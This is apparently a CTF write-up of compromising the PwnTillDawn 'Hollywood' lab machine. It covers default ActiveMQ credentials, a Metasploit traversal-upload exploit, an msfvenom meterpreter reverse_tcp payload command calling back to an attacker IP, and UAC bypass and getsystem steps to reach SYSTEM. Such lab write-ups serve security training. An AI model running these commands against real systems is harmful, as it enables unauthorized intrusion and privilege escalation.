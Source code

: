 ```yaml
---
title: Hollywood Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-27 01:33:00 +0000
categories: [Blogging, PwnTillDawn]
tags: [writeups, tomcat, activemq, msfconsole]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/143771170-b81a10a3-ee70-4748-9d22-a333f4934b5f.png)<br>

**> Information Gathering**<br>
The Default nmap scan showed many active ports on the target. We can see some major ports like `21 (ftp), 25 (smtp), 80 (http), 110 (pop3) 445 (smb), 8080 (tomcat) & 8161 (activemq)`. <br>

`xampp` was found running on the default port 80, directory bruteforcing this page did not yield any results.<br>
![image](https://user-images.githubusercontent.com/67085453/143771194-f7c03df2-0b7d-423d-b38b-0274a88dbb23.png)<br> 

Apache tomcat was setup on port 8080 with `host-manager` login disallowed and the default tomcat credentials did not work on `manager app`. <br>
![image](https://user-images.githubusercontent.com/67085453/143771198-a5910e2c-4eb6-4ea6-8df5-d4113b33f42e.png)<br>

Digging deeper on port 8161, we found apache activemq running.<br>
![image](https://user-images.githubusercontent.com/67085453/143771202-66596cba-e76d-4bfd-a775-823b50e39e77.png)<br>

The first thing i always do is to try the default login creds on webapps. I tried to login with the default username and password `admin:admin` on activemq just like we did on tomcat.<br>
![image](https://user-images.githubusercontent.com/67085453/143771208-19a45234-1010-4920-9086-18e4e135cb26.png)<br>

Luckily for us, the default `admin:admin` worked and we logged in succesfully.<br>
![image](https://user-images.githubusercontent.com/67085453/143771218-f4d9d7bf-0fb8-4199-90b9-0281d43289bc.png)<br>

On the admin dashboard, the version of activemq rnning on the taret is `5.11.1`. We performed a quick google to find any known exploit.<br>
![image](https://user-images.githubusercontent.com/67085453/143771230-8430ca4d-2bf9-45d1-bb9e-bbbe5a968b57.png)<br>

We found a approved exploit from <a href="https://www.rapid7.com/db/modules/exploit/windows/http/apache_activemq_traversal_upload/">rapid7</a>. <br>
![image](https://user-images.githubusercontent.com/67085453/143771368-bc57ac26-72a0-4f4e-b982-31ca164bcce7.png)<br>

Load this module into `msfconsole` using `use windows/http/apache_activemq_traversal_upload`, setup the required module options for this exploit. `RHOST`, `RPORT`, `USERNAME`, `PASSWORD` & `LHOST`. Without these module options setup, the exploit will fail to execute.<br>
![image](https://user-images.githubusercontent.com/67085453/143771382-28b2af4e-35e5-4a15-8943-320554dfcb98.png)<br>

All module options set?? then launch an attack using either `run` or `exploit` command in `msfconsole`. If successful, we should spawn a shell on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143771399-c81cb79d-42f1-4581-92fb-5e861807d80f.png)<br>

**> Post Exploitation**<br>

Winpeas and other tools did not provide me with any good information. So i decided to create a staged payload using `msfvenom`. To create a payload, use this `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.66.66.78 LPORT=4444 -f exe -o test.exe`<br>
![image](https://user-images.githubusercontent.com/67085453/143771410-6614f216-ceec-4ae4-9e1e-58a4c030113a.png)<br>

Then transfered this to the target, setup another msfconsole listerner then executed the `test.exe` on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143771419-56228f2b-f9e5-4c66-8e57-70a71dc04142.png)<br>

We should have another session in the new `msfconsole` listerner. Lets background this session using the command `bg` or `background`. Load `msfconsole` post exploitation module by typing `use post/multi/recon/local_exploot_suggester`. Once the the module is loaded, set the session to your current session using `set session (session number)` and type run.<br>
![image](https://user-images.githubusercontent.com/67085453/143771432-c57fcd1c-60ce-43ea-b241-89537af6b48a.png)<br>

After waiting for sometime for the results of the post module, we realized we could bypass `User Account Control` to become `NT AUTHORITY\SYSTEM`. To do this, we need to load the module `exploit/windows/local/bypassuac_eventvwr`, set `session` and `lhost` then execute the exploit again using either `run` or `exploit`.<br>
![image](https://user-images.githubusercontent.com/67085453/143771442-baefc788-52c1-4ed2-81e5-76ffe38ea966.png)<br>

This module will bypass` Windows UAC` by hijacking a special key in the `Registry` under the current user hive, and inserting a custom command that will get invoked when the `Windows Event Viewer` is launched. We have successfuly hijacked `C:\Windows\System32\eventvwr.exe` on the target But we are still not administrator. So we will use the `getsystem` command. This comand will use a number of different techniques in attempt to gain SYSTEM level privileges on the target<br>
![image](https://user-images.githubusercontent.com/67085453/143771472-beff3526-d40a-4072-badd-7653a1c0e897.png)<br>

The technique worked and we are `NT AUTHORITY\SYSTEM` though the `Named Pipe Impersonation` technique. We have fully compromised this target.<br>
![image](https://user-images.githubusercontent.com/67085453/143771478-9e61baa0-5704-416a-8d9f-bb14ee0c0963.png)<br>


Referrence: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>
